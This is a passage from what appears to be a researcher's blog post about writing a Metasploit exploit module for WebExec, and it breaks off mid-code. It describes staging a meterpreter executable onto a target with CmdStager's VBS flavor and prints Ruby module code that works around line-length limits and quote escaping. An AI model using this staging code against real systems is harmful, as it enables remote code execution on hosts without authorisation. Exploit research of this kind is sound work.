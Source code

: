The actual implementation is mostly straight forward if you look at the code linked above, but I wanted to specifically talk about the exploit module, since it had an interesting problem: how do you initially get a meterpreter .exe uploaded to execute it?

I started by using a psexec-like exploit where we upload the .exe file to a writable share, then execute it via WebExec. That proved problematic, because uploading to a share frequently requires administrator privileges, and at that point you could simply use <tt>psexec</tt> instead. You lose the magic of WebExec!

After some discussion with [Egyp7](https://twitter.com/egyp7), I realized I could use the <tt>Msf::Exploit::CmdStager</tt> mixin to stage the command to an .exe file to the filesystem. Using the .vbs flavor of staging, it would write a Base64-encoded file to the disk, then a .vbs stub to decode and execute it!

There are several problems, however:

- The max line length is ~1200 characters, whereas the <tt>CmdStager</tt> mixin uses ~2000 characters per line
- <tt>CmdStager</tt> uses <tt>%TEMP%</tt> as a temporary directory, but our exploit doesn't expand paths
- <tt>WebExecService</tt> seems to escape quotation marks with a backslash, and I'm not sure how to turn that off

The first two issues could be simply worked around by adding options (once I'd figured out the options to use):

```
wexec(<span class="Boolean">true</span>) <span class="Statement">do</span> |opts|
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">flavor</span>] = <span class="rubySymbol">:</span><span class="rubySymbol">vbs</span>
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">linemax</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">MAX_LINE_LENGTH</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">temp</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">TMPDIR</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">delay</span>] = <span class="Float">0.05</span>
  execute_cmdstager(opts)
<span class="Statement">end</span>
```

<tt>execute\_cmdstager()</tt> will execute <tt>execute\_command()</tt> over and over to build the payload on-disk, which is where we fix the final issue:

```

<span class="Comment"># This is the callback for cmdstager, which breaks the full command into</span>
<span class="Comment"># chunks and sends it our way. We have to do a bit of finangling to make it</span>
<span class="Comment"># work correctly</span>
<span class="Statement">def</span> <span class="Function">execute_command</span>(command, opts)
  <span class="Comment"># Replace the empty string, "", with a workaround - the first 0 characters of "A"</span>
  command = command.gsub(<span class="rubyStringDelimiter">'</span><span class="String">""</span><span class="rubyStringDelimiter">'</span>, <span class="rubyStringDelimiter">'</span><span class="String">mid(Chr(65), 1, 0)</span><span class="rubyStringDelimiter">'</span>)

  <span class="Comment"># Replace quoted strings with Chr(XX) versions, in a naive way</span>
  command = command.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="Special">[^</span><span class="rubyRegexp">"</span><span class="Special">]</span><span class="Special">*</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>) <span class="Statement">do</span> |capture|
    capture.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>, <span class="rubyStringDelimiter">""</span>).chars.map <span class="Statement">do</span> |c|
```